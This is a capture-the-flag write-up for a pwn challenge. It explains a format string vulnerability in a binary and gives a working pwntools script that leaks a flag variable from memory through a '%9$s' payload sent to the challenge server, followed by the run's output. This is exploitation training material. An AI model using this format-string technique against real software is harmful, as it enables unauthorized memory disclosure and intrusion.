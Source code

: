 # Access Denied: Pwn/Read

## Question 

Read, Read and Read.

server: nc 34.71.207.70 5337

[format_string_read](format_string_read)


## Solution

The program suffers a format string vulnerability. After testing we observe we can arbitrarily read addresses using the 9th offset.

```
./format_string_read
Enter your name
%9$p    AAAABBBB                 
0x4242424241414141    AAAABBBB
```

So e'll go ahead and read ``0x4040a0`` which contains the ``flag`` variable.

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.71.207.70',5337)
    else:
        return process(e.path)


p = start()
chain = b'%9$s    '+p64(0x4040a0)
p.sendline(chain)
p.interactive()

```


Running our script yields the flag 

```
└─# python3 pwn-format.py BIN=./format_string_read REMOTE
[*] '/root/workspace/access_denied/format_string_read/format_string_read'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/root/workspace/access_denied/format_string_read/format_string_read'
[+] Opening connection to 34.71.207.70 on port 5337: Done
[*] Switching to interactive mode
Enter your name
accessdenied{f0rm4t_5tr1ng_r34d_0fa330d1}
```
